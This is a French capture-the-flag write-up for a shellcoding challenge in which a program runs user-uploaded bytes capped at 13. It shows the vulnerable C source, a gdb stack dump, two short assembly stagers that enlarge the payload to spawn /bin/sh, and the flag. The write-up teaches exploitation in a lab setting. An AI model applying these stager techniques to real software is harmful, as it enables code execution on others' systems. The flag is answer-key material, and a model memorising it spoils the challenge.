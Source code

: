 # Writeup pour `Spaaaaaaace`

Auteur : *Pwnsard*  
Difficulté : *Facile*

### Notions prérequises :
- Fonctionnement d'une stackframe
- Shellcoding/Assembleur/Syscalls

### Principe

Il s'agit d'un challenge de shellcoding, avec pour contrainte principale qu'un payload ne peut avoir qu'une taille d'au plus `0xd` bytes.  

Une fonction permet de stocker un shellcode de taille au plus `firmware_max_size` :
```C
void upload_update(long firmware_max_size, void* firmware) {
   ssize_t bytes_read;
   printf("Ready to receive update > ");
   bytes_read = read(0, firmware, firmware_max_size);
}
```

Une fonction permet d'executer le shellcode stocké :
```C
void apply_update(void* firmware) {
   ((void (*)())firmware)();
}
```

Les variables étant définies dans le main comme suit :
```C
int main(void) {
   setvbuf(stdin, NULL, _IONBF, 0);
   setvbuf(stdout, NULL, _IONBF, 0);
   setvbuf(stderr, NULL, _IONBF, 0);

   long firmware_max_size = 0xd;
   void *firmware;
   firmware = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
   
   intro();
   int res;

   while (true) {
      choice(&res);
      if (res == 1) {
         upload_update(firmware_max_size, firmware);
      } else if (res == 2) {
         apply_update(firmware);
      } else if (res == 3) {
         bidirectional_connection();
      } else {
         printf("Invalid choice");
      }
   }

   return 0;
}
```

Il s'agit donc de réussir à envoyer/éxecuter un shellcode de plus de `0xd` bytes à partir d'un plus petit shellcode.

### Solution prévue

Une première faille exploitable réside dans la définition de `firmware_max_size` dans main, et donc sa valeur stockée sur la stack.  

Lorsque l'on met un breakpoint au début de l'exécution du shellcode, on a une stack définie comme suit.

```
gef➤  x/14gx $sp
0x7fffffffd958:	0x000055555555539d	0x00007fffffffd970
0x7fffffffd968:	0x00007ffff7fbd000	0x00007fffffffd9a0
0x7fffffffd978:	0x0000555555555497	0x0000000000000000
0x7fffffffd988:	0x00000002f7fe4410	0x00007ffff7fbd000
0x7fffffffd998:	0x000000000000000d	0x00007fffffffda40
0x7fffffffd9a8:	0x00007ffff7db3248	0x00007fffffffd9f0
0x7fffffffd9b8:	0x00007fffffffdac8	0x0000000155554040
```

On repère le qword `0x000000000000000d`, à l'offset `0x7fffffffd998 - 0x7fffffffd958 = 0x40` de la stack

Ainsi en utilisant le shellcode suivant (de longueur 13 octets) : 
```assembly
mov rax, 800
mov [rsp + 0x40], rax
ret
```
On change la valeur de `firmware_max_size` à 800, et ainsi nous permet d'envoyer un shellcode beaucoup plus grand  pour éxecuter `/bin/sh` et de récupérer le flag.

### Deuxième solution possible  

Une autre solution trouvée pendant les tests est d'utiliser le shellcode 

```asm
read(0, mmaped_addr, 0x80)

xor rdi,rdi
mov rsi,rdx
mov edx, 0x80
syscall
```
qui permet de faire immédiatement un deuxième read de 0x80 octets. En envoyant ensuite un shellcode plus grand (commençant par un certain nombre de `nop` pour réécrire la partie contenant le premier shellcode), on obtient également un shell.

### Script de résolution :

Voir `solve.py`

### Flag : 

`404{wh3n_l1fe_91ve5_you_LeMOn...}`